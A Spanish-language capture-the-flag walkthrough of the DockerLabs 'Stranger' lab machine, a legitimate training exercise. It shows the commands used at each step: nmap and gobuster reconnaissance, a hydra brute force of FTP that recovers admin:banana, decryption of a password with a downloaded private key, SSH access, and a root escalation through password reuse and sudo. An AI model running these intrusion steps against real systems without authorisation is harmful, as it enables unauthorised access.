 # Máquina Stranger

Dificultad -> Medium

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

Creador -> **kaikoperez**

--------------
## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada a los puertos descubiertos en el anterior escaneo.

```shell
nmap -sCV -p21,22,80 172.17.0.2 -oN targeted
________________________________________________
21/tcp open  ftp     vsftpd 2.0.8 or later
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f6af0177e8fca495856b5c9cc7c1d398 (ECDSA)
|_  256 367ed325fa59388f2e21f9f028a47e44 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: welcome
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Echamos un vistazo a la web:

![Pasted image 20240505223847](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/18feea65-b665-45bf-8ab8-431f30a9be52)

--------------
## Explotación

Tenemos un posible user. 
Hacemos fuerza bruta con el user **mwheeler** al servicio **ftp** y **ssh** pero no tiene resultado.

Aplicamos **fuzzing** en la web:

```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,txt,html,php.bak
-----------------------------------------------------------------------------------
/index.html           (Status: 200) [Size: 231]
/strange              (Status: 301) [Size: 310] [--> http://172.17.0.2/strange/]
/server-status        (Status: 403) [Size: 275]   
```

Encontramos un directorio **/strange**. Accedemos a él en la web y nos encontramos con un **blog**.

![Pasted image 20240505224932](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/50229b47-8448-48ee-8df8-4bff1e1fc852)

Volvemos a aplicar **fuzzing** sobre este directorio:

```shell
gobuster dir -u http://172.17.0.2/strange/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,txt,html,php.bak
-----------------------------------------------------------------------------------
/index.html           (Status: 200) [Size: 3040]
/private.txt          (Status: 200) [Size: 64]  
/secret.html          (Status: 200) [Size: 172]  
```

Dentro del **secret.html** encontramos una pista:

![Pasted image 20240505225116](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/a7ebe597-a439-44ca-8cea-3692f9759978)

Tenemos también un **private.txt** que nos descargamos de la web.

Aplicamos fuerza bruta con ese user al **FTP**:

```shell
hydra -l admin -P /usr/share/wordlists/rockyou.txt ftp://172.17.0.2 -t 10
----------------------------------------------------------
[21][ftp] host: 172.17.0.2   login: admin   password: banana
```

Accedemos con las credenciales **admin:banana** por **ftp**:

```shell
ftp 172.17.0.2
-> admin
-> banana

ls
------------------------------------------------------------------------
-rwxr-xr-x    1 0        0             522 May 01 00:53 private_key.pem
```

```shell
get ftp 172.17.0.2
```

![Pasted image 20240505225607](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/3516e998-c7a0-4e9c-a675-d801b4b30a8f)

Es posible que con un fichero **pem** y el **txt** tengamos que desencriptar algo.

```shell
sudo openssl rsautl -decrypt -in private.txt -out output.txt -inkey private_key.pem
```

Parece que hemos obtenido una contraseña:

```shell
cat output.txt
-----------------------
demogorgon
```

Resulta ser la contraseña del usuario **mwheeler** por **ssh**:

```shell
ssh mwheeler@172.17.0.2
```

Estamos dentro !

------------------------------
## Escalada de privilegios

El usuario **admin** existe en el sistema. Y al reutilizar la contraseña **banana** podemos migrar a este.

```shell
su admin
```

```shell
sudo -l
----------------------
User admin may run the following commands on a4c4930a7009:
    (ALL) ALL
```

Además, el user **admin** puede ejecutar cualquier cosa como **root**, por lo que podemos escalar privilegios fácilmente.

```shell
sudo su
---------------------------------------
---------------------------------------
root@a4c4930a7009:~# cat flag.txt 
This is the root flat - ##### -
```

